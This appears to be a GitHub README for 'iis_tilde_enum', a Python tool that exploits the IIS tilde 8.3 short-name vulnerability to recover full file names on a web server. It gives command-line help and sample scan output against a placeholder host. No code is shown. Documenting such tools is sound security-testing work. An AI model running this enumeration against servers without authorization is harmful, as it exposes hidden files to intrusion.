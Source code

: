 iis_tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-d PATH_WORDLISTS] [-e PATH_EXTS] [-f]
                     [-o OUT_FILE] [-p PROXY] [-u URL] [-v VERBOSE_LEVEL]
                     [-w WAIT] [--resume RESUME_STRING]
                     [--limit-ext LIMIT_EXTENSION]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -d PATH_WORDLISTS     Path of wordlists file
  -e PATH_EXTS          Path of extensions file
  -f                    Force testing even if the server seems not vulnerable
  -o OUT_FILE           Filename to store output
  -p PROXY              Use a proxy host:port
  -u URL                URL to scan
  -v VERBOSE_LEVEL      verbose level of output (0~2)
  -w WAIT               time in seconds to wait between requests
  --resume RESUME_STRING
                        Resume from a given name (length &lt;= 6)
  --limit-ext LIMIT_EXTENSION
                        Enumerate for given extension only
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u "http://iis/subdir" -w 0.1 -o output/enum_result.txt
[-]  Testing with dummy file request http://iis/subdir/egSHcspvs8bQ5.htm
[-]    URLNotThere -> HTTP Code: 404, Response Length: 1379
[-]  Testing with user-submitted http://iis/subdir/
[-]    URLUser -> HTTP Code: 403, Response Length: 218
[!]  WARNING: We did not receive an HTTP response code 200 back with given url.
[-]  User-supplied delay detected. Waiting 0.1 seconds between HTTP requests.
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the IIS tilde enumeration vulnerability..
[+]  Found file:  descri~1.htm
[+]  Found file:  index-~1.htm
[+]  Found file:  index-~2.htm
[-]  Finished doing the 8.3 enumeration for /subdir/.

---------- OUTPUT START ------------------------------
[+] Raw results:
http://iis/subdir/descri~1.htm
http://iis/subdir/index-~1.htm
http://iis/subdir/index-~2.htm

[+] Existing files found:
http://iis/subdir/description.html

[+] Existing Directories found: None.
---------- OUTPUT COMPLETE ---------------------------
</pre>
